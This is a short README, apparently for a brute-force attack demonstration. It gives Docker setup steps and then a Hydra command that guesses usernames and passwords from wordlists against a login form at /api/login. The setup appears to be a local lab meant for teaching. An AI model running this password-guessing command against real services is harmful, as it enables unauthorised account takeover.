 ## How to run

1. Create the docker container `docker-compose build`

2. Run the docker container `docker-compose up`

3. Validate the name of the created container `docker-compose ps` ( should be brute-force-presentation_web_1 )

If the name is not brute-force-presentation_web_1, switch out the below instance of the name with whatever you have locally

4. Run the following command from a seperate terminal `docker exec -it brute-force-presentation_web_1 hydra -I -L /usr/app/users.txt -P /usr/app/shortpassword.txt -M targets.txt http-form-post "/api/login:username=^USER^&password=^PASS^:Failure"`
